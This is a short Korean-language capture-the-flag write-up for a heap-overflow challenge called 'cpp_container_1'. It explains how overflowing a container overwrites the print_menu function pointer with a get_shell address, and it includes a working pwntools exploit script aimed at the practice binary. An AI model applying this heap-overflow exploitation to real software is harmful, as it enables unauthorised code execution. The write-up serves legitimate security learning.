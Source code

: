 위 내용을 보면 rax를 call 할때의 rax 값은 0x900000009인 것을 볼 수 있다. 필자가 입력한 9가 들어가 있다. 따라서 힙의 거리를 계산해 해당 힙의 오프셋 만큼 get_shell 주소로 덮으면 쉘을 얻을 수 있을 것 같다.

이 부분이 어떤 값이 원래 있었는지 찾아보니 메뉴를 프린트 해주는 함수 부분이다. 이때 copy를 통해서 heap overflow가 발생하고 print_menu 함수의 주소를 get_shell() 함수 주소로 덮어 뜨면 공격에 성공한다.

오프셋을 계산하면 9만큼 떨어져 있으며 get_shell 함수 주소를 int 형식으로 주었다. 익스플로잇 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

#p = remote("host3.dreamhack.games", 18225);
#p = process("./iofile_vtable_check", env={'LD_PRELOAD':'./libc.so.6'})
p = process("./cpp_container_1")
elf = ELF("./cpp_container_1")
#libc = ELF("./libc.so.6")

get_shell = 0x401041

p.sendlineafter(b"[*] select menu: ", b"2")

p.sendlineafter(b"Input container1 size\n", b"9")
p.sendlineafter(b"Input container2 size\n", b"1")

p.sendlineafter(b"[*] select menu: ", b"1")
for i in range(1, 11):
    p.sendlineafter(b"input: ", str(get_shell))

p.sendlineafter(b"[*] select menu: ", b"3")

p.interactive()
```

정말 무작정 이것저것 해보다가 답이 없어서 하나하나씩 디버깅 하다가 찾았다. 생각보다 어이없이 풀렸던 재밌는 문제였다.